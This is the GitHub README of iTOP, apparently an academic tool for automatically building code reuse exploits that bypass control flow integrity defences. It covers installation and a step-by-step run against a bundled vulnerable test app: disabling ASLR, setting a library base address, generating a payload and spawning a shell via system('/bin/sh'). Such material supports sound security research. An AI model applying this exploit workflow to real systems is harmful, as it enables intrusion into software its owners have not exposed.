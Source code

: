 # About
* This is the GitHub repository of the indirect transfer oriented programming (iTOP) tool. iTOP can be used for evaluating the potential for automated crafting of advanced code reuse attacks which can bypass state-of-the-art control flow integrity (CFI) policies.

## Publication
to be added

## Demo Videos

* iTOP: exploit writing in ESL.
[![pic1.png](https://i.postimg.cc/6pF2ZBmX/pic1.png)](https://tinyurl.com/y6cmbvyt)

* iTOP: spawning a system shell exploit.
[![pic1.png](https://i.postimg.cc/QMW6gxNk/pic2.png)](https://tinyurl.com/y6a9gk7c)

* iTOP: spawning a system shell with no CFI policy used.
[![pic1.png](https://i.postimg.cc/9QX0qrpK/pic3.png)](https://tinyurl.com/yyvxncqj)

* iTOP: spawning a system shell with the VTint policy in-place.
[![pic1.png](https://i.postimg.cc/FFPBQ66S/pic4.png)](https://tinyurl.com/yyrso75k)


# Installation

To run iTOP, you need a python2 or pypy environment with angr and antlr4-python2-runtime installed. We recommend creating a python virtual environment. The steps to set one up with the proper packages are outlined below.

1. create python2 virtualenv using virtualenv, virtualenvwrapper, conda, pipenv, or similar::

    $ virtualenv autocoop

2. enter virtualenv & install requirements::

    source autocoop/bin/activate
    pip install -r requirements.txt

3. make sure that "." is in the $PYTHONPATH::

    export PYTHONPATH=.:$PYTHONPATH


## Running iTOP

To generate a payload with iTOP, some setup is required. To make results reproducible, ASLR has to be disabled, and the exploit generation script has to be updated with the proper base library address for your system. In a real attack, this information can be extracted using information leaks. Running the lxs script with everything configured correctly will lead to a call to 'system("/bin/sh")'.

1. disable aslr::

    $ cd exploitable_app
    $ ./disable_aslr.sh

2. run lxs::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    ...

3. update lib base address in exploit_generator.py::

    <Auto-COOP/tool/exploit_generator.py>
    ...
    config = Config("exploitable_app/nodejs/libnode.so",
                      0x7ffff7ff2000, <-- UPDATE THIS
                      0xa0000000,
                      4096,
                      )
    ...

4. generate the payload::

    $ export PYTHONPATH=.
    $ python autocoop/exploit_generator.py esl_scripts/testsuite_coop/shell.esl

5. run lxs again::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    [+] fd 3
    [+] execute w00t..
    $

6. you just spawned a shell!
